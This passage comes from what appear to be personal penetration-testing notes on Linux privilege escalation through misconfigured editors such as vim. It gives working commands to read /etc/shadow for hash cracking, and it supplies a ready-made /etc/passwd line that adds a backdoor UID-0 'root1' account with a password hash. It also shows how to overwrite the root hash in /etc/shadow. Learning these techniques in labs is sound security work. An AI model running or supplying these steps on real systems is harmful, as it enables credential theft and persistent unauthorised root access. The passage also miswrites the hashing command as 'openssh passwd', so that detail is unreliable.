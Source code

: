 check privilege 
```bash
id
```

![](Attachments/Pasted%20image%2020250222093237.png)

now we have root privileges 

for account takeover you can read /etc/shadow then crack this hash

```bash
cat /etc/shadow
```

![](Attachments/Pasted%20image%2020250222094208.png)


###### 4.2 vim /vi/nano
check permissions
```
which vim
ls -lha /usr/bin/vim
```

![](Attachments/Pasted%20image%2020250222103207.png)

edit the passwd file or edit the shadow file 
```bash
vim /etc/passwd 

#add below line 
root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash
```

**Note :- when you are trying to save this file it will give error so for save file use *wq!*** 

```bash
vim /etc/shadow

#Replace the root hash with your intended password hash ( openssh passwd 1234 )
```
